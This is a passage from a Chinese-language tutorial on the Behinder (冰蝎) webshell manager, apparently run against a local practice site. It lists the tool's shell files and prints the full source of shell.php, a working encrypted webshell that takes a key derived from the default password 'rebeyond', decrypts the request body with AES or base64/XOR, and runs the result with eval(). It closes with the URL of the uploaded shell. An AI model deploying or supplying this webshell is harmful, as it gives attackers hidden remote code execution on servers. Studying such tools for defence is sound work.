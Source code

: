 下载解压后的目录：

```java
$ tree
.
├── 更新日志.txt
├── Behinder_v3.0_Beta6_linux.jar
├── data.db
└── server
    ├── shell.asp
    ├── shell.aspx
    ├── shell.jsp
    ├── shell.jspx.jsp
    └── shell.php
```

server 目录就是用来上传服务端的小马，我们选择上传 shell.php，默认使用连接密码 rebeyond，你可根据需要自行修改，然后用密码 32 位 md5 哈希值替换 key 变量即可。

shell.php 代码如下：

```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	$post=file_get_contents("php://input");  // 读取上传文件内容
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");   // 如果没有openssl扩展就调用base64_decode
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
        // 如果有openssl扩展就采用AES128位解密，因为冰蝎是加密传输的
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```

上传成功后得到地址：

```java
http://127.0.0.1/hackable/uploads/shell.php
```
